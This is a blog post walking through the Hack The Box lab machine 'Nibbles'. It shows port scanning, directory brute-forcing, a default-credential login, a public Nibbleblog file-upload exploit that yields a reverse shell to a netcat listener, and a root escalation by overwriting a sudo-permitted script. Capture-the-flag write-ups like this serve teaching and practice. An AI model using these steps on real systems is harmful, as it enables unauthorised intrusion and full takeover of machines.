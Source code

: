 ```yaml
---
layout: post
title: Nibbles
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/nibbles/Nibbles.png)

Nibbles is a relatively simple box. It runs a vulnerable version of nibbleblog. The privilege escalation process involves exploiting sudo permissions on a file that everyone can write to.

# Recon

## nmap

I initiated an aggressive TCP scan using Nmap to enumerate all ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.129.83.143            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:27 EDT
Nmap scan report for 10.129.83.143
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
```

I conducted a service version scan using Nmap to gather more detailed information about the identified open ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -p 22,80 -sV -sC -oA scans/svscan 10.129.83.143      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:37 EDT
Nmap scan report for 10.129.83.143
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

## Port 80

![machine card](/assets/nibbles/nibbles1.png)

I check the source of the page and see another directory listed: /nibbleblog/
![machine card](/assets/nibbles/nibbles2.png)

### /nibbleblog/
![machine card](/assets/nibbles/nibbles3.png)

I poked around a bit, but didn't find much. I ran a `gobuster` scan and found an admin login page.

```sh
spacemoth in ~/htb/nibbles λ gobuster dir -u http://10.129.83.143/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php                   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.83.143/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 303]
/index.php            (Status: 200) [Size: 2988]
/sitemap.php          (Status: 200) [Size: 403]
/content              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/content/]
/themes               (Status: 301) [Size: 326] [--> http://10.129.83.143/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 304]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 301) [Size: 325] [--> http://10.129.83.143/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 329] [--> http://10.129.83.143/nibbleblog/languages/]
/.php                 (Status: 403) [Size: 303]
Progress: 235515 / 441122 (53.39%)2024-07-17 21:19:07 VERIFY OK: depth=2, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: Root Certificate Authority
2024-07-17 21:19:07 VERIFY OK: depth=1, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: us-dedivip-1 Issuing CA
2024-07-17 21:19:07 VERIFY KU OK
2024-07-17 21:19:07 Validating certificate extended key usage
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Client Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (oid) 1.3.6.1.5.5.7.3.2, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 VERIFY EKU OK
2024-07-17 21:19:07 VERIFY OK: depth=0, C=GR, O=Hack The Box, OU=Systems, CN=us-dedivip-1
Progress: 235525 / 441122 (53.39%)2024-07-17 21:19:08 Control Channel: TLSv1.3, cipher TLSv1.3 TLS_AES_256_GCM_SHA384, peer certificate: 256 bits ED25519, signature: ED25519, peer temporary key: 253 bits X25519
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Admin
![machine card](/assets/nibbles/nibbles4.png)
I try a bunch of default credentials, and finally got in with admin:nibbles.
![machine card](/assets/nibbles/nibbles6.png)

## Exploit CVE-2015-6967

The readme showed version 4.0.3 of Nibbleblog.
![machine card](/assets/nibbles/nibbles5.png)
I found an Arbitrary File Upload exploit: https://github.com/dix0nym/CVE-2015-6967. Downloaded the script to my machine, created a simple php shell and set up a listener.
```sh
spacemoth in ~/htb/nibbles λ python3 exploit.py --url http://10.129.83.143/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```
At my listener I get a shell and obtain user flag.
```sh
spacemoth in ~/htb/nibbles λ sudo nc -lvnp 443                               
[sudo] password for spacemoth: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.83.143] 41246
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:19:52 up 56 min,  0 users,  load average: 0.00, 0.07, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ ^Z
[1]  + 383143 suspended  sudo nc -lvnp 443
spacemoth in ~/htb/nibbles λ stty raw -echo; fg
[1]  + 383143 continued  sudo nc -lvnp 443

nibbler@Nibbles:/$ whoami
nibbler
nibbler@Nibbles:/$ ls
bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc	snap  usr
dev   initrd.img.old  media	  root	srv   var
etc   lib	      mnt	  run	sys   vmlinuz
nibbler@Nibbles:/$ cd home
nibbler@Nibbles:/home$ ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
271a73c**************************
```

## Root

First thing I usually do is `sudo -l`

```sh
nibbler@Nibbles:/home/nibbler$ sudo -l           
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The file monitor.sh doesn't exist and I don't have permissions to create the directories/files. However there is a zip file in Nibbler's home directory. I unzipped it and it created /home/nibbler/personal/stuff/monitor.sh

```sh
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

I overwrote the file and gave it permisions to execute.

```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh  
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash' >> monitor.sh   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

```sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# cat root.txt
bf8cb***************************
```
